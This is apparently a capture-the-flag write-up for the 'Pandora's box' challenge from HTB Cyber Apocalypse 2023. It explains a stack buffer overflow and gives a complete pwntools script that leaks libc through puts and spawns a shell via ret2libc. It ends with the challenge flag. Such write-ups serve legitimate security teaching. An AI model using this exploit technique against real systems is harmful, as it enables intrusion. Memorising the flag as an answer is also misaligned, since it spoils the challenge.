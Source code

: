 # Pandora's box - HTB Cyber Apocalypse 2023

## Description
```
You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?
```

## Solution
There's a buffer overflow inside the `Insert location of the library:` prompt, which allows us to perform ROP.

Checksec:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

file:
```
./pb: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=d0165634ba8886a0cdf61584d8c941d30ff3820e, for GNU/Linux 3.2.0, not stripped
```

There is no PIE or canary on the binary, so we just have straight up ROP.

Since there is no win function in this binary, we will have to leak libc.

This can be done by using puts to leak an address in the Global Offset Table, then returning to main.

Any address in the GOT can be used. But in this case I opted to use the puts GOT also.

```
I use the puts to the leak the puts :)
```

The exploitation will be divided into two stages.

1. Leak the puts GOT
2. Overflow and ret2libc

To leak the puts got, we first pop the address of the puts GOT into rdi. Then jump to puts's plt to call puts. Puts will then dereference our address and print the contents. We can then return to box() afterwards.

After we have leaked libc, we have all the options in the world. So spawning a shell with system seem like a good candidate.

Exploit:
```py
from pwn import *

io = remote("165.232.108.236",30641)

#Function to get to the overflow
def get_to_overflow():
    io.recvuntil(b'>>')

    io.sendline(b'2')

    io.recvuntil(b'Insert location of the library:')


get_to_overflow()

padding = b'A'*cyclic_find(b'oaaa')

#Gadgets needed for leaking the puts GOT
poprdi = p64(0x000000000040142b)
putsgot = p64(0x403fa0)
putsplt = p64(0x00401030)
box = p64(0x004012c2)

#Leak puts GOT
payload = [
    padding,
    poprdi,
    putsgot,
    putsplt,
    box
]
payload = b''.join(payload)
io.sendline(payload)

#Receive puts leak
io.recvuntil(b'We will deliver the mythical box to the Library for analysis, thank you!\n\n')
puts_leak = u64(io.recvline()[:-1].ljust(8,b'\x00'))

#Calculate base of LIBC
libc_base = puts_leak - 0x80ed0
log.info(f"LIBC BASE: {libc_base:#x}")

#Calculate pointers we need
system = p64(0x50d60 + libc_base)
binsh = p64(0x001d8698 + libc_base)
ret = p64(0x0000000000401016)

get_to_overflow()

#Spawn shell payload
payload = [
    padding,
    ret, #For alignment
    poprdi,
    binsh,
    system
]
payload = b''.join(payload)
io.sendline(payload)


io.interactive()
```

## Flag
`HTB{r3turn_2_P4nd0r4?!}`